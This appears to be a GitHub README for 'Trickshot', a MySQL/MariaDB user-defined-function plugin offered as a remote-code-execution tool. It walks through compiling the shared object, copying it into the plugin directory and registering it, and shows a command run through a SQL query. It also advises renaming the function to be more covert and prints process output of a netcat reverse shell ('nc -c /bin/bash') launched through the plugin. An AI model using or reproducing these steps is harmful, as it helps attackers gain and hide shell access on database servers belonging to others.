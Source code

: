 # Trickshot
A MYSQL plugin that allows RCE through the MYSQL Server

# Installation
To install this lovely plugin first you must first compile it to a shared object like below.

```
gcc -I/usr/include/mysql -shared -fPIC -o tg.so trickshot.c
```

Then you must copy the `.so` file to the MYSQL plugin directory like so:

```
cp -f tg.so /usr/lib64/mysql/plugin/
```

Then remove into your MYSQL server and run the following query:

```
CREATE FUNCTION trickshot RETURNS STRING SONAME "tg.so";
```

Note: the `trickshot` portion of the MYSQL command can be swapped out to be more covert. The plugin is now installed.

# Usage
To use this plugin simply run the `trickshot` function inside a MYSQL query. An example is shown below.

```
MariaDB [(none)]> select trickshot("whoami");
+---------------------+
| trickshot("whoami") |
+---------------------+
| mysql               |
+---------------------+
1 row in set (0.04 sec)
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 22077 ?        Ss     0:00 /bin/sh /usr/bin/mysqld_safe --basedir=/usr
 83370 ?        Sl     0:00  \_ /usr/libexec/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib64/mysql/plugin --log-error=/var/log/mariadb/mariadb.log --pid-file=/var
 83526 ?        S      0:00      \_ sh -c nc -c /bin/bash localhost 4444 2>&1
 83527 ?        S      0:00          \_ nc -c /bin/bash localhost 4444
 83528 ?        S      0:00              \_ /bin/bash
```

# Resources
[The official MYSQL UDF References](https://dev.mysql.com/doc/refman/8.0/en/adding-udf.html)))
